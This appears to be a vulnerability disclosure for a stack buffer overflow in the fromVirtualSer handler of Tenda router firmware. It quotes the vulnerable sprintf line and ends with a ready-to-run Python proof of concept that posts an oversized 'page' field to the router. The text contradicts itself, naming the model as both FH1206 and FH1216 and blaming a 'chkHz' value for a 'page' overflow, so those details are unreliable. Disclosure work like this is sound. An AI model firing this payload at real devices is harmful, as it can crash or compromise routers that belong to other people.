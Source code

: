 # fromVirtualSer

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **fromVirtualSer** function. The function receives the `page` parameter from a POST request. `   sprintf(v5, "nat_virtualser.asp?page=%s", v3);` The statement will cause a buffer overflow. The `chkHz` value provided by the user may exceed the capacity of the `v5` array, thereby triggering this security vulnerability.


![image](https://github.com/user-attachments/assets/2d880d75-b31c-44ef-afdd-3d0e9dcf2330)


## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/VirtualSer"
payload = b"a"*2000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image](https://github.com/user-attachments/assets/d9112a13-ae11-4ee5-9d4e-3c505053cf0a)
